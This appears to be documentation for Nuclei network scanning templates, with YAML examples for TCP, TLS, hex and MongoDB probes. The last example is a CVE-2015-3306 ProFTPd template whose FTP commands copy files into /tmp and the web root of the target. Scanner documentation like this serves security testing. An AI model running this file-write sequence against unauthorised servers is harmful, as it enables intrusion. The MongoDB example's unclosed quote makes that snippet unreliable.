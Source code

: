 ### Basic Network Request Template

This template connects to a network service, sends some data and reads 4 bytes from the response. Matchers are ran to identify valid response, which in this case is `PONG`.

```yaml
id: basic-network-request

info:
  name: Basic Network Request
  author: pdteam
  severity: info

network:
  - host: 
      - "{{Hostname}}:8082"
    inputs:
      - data: "PING\r\n"
    read-size: 4
    matchers:
      - type: word
        part: data
        words:
          - "PONG"
```

### Basic TLS Network Request Template

Similar to the above template, but the connection to the service is done with TLS enabled.

```yaml
id: basic-tls-network-request

info:
  name: Basic TLS Network Request
  author: pdteam
  severity: info

network:
  - host: 
      - "tls://{{Hostname}}:8082"
    inputs:
      - data: "PING\r\n"
    read-size: 4
    matchers:
      - type: word
        part: data
        words:
          - "PONG"
```

### Hex Input Network Request Template

This template connects to a network service, sends some data encoded in hexadecimal to the server and reads 4 bytes from the response. Matchers are ran to identify valid response, which in this case is `PONG`. The match words here are encoded in Hexadecimal, using `encoding: hex` option of matchers.

```yaml
id: hex-network-request

info:
  name: Hex Input Network Request
  author: pdteam
  severity: info

network:
  - host: 
      - "{{Hostname}}:8082"
    inputs:
      - data: "50494e47"
        type: hex
      - data: "\r\n"
        
    read-size: 4
    matchers:
      - type: word
        part: data
        encoding: hex
        words:
          - "504f4e47"
```

### Input Expressions in network Templates

Inputs specified in network also support DSL Helper Expressions, so you can create your own complex inputs using variety of nuclei helper functions. The below template is an example of using `hex_decode` function to send decoded input over wire.

```yaml
id: input-expressions-mongodb-detect

info:
  name: Input Expression MongoDB Detection
  author: pd-team
  severity: info
  reference: https://github.com/orleven/Tentacle

network:
  - inputs:
      - data: "{{hex_decode('3a000000a741000000000000d40700000000000061646d696e2e24636d640000000000ffffffff130000001069736d6173746572000100000000')}}"
    host:
      - "{{Hostname}}:27017"
    read-size: 2048
    matchers:
      - type: word
        words:
          - "logicalSessionTimeout"
          - "localTime
```

### Multi-Step Network Request Templates

This last example is an RCE in proFTPd which if vulnerable, allows to place arbitrary files in any directory on the server. The detection process involves a random string on each nuclei run using `{{randstr}}`, and sending multiple lines of FTP input to the vulnerable server. At the end, a successful match is detected with the presence of `Copy successful` in the response.

```yaml
id: CVE-2015-3306

info:
  name: ProFTPd RCE
  author: pd-team
  severity: high
  reference: https://github.com/t0kx/exploit-CVE-2015-3306
  tags: cve,cve2015,ftp,rce

network:
  - inputs:
      - data: "site cpfr /proc/self/cmdline\r\n"
        read: 1024
      - data: "site cpto /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpfr /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpto /var/www/html/{{randstr}}\r\n"
    host:
      - "{{Hostname}}:21"
    read-size: 1024
    matchers:
      - type: word
        words:
          - "Copy successful" 
```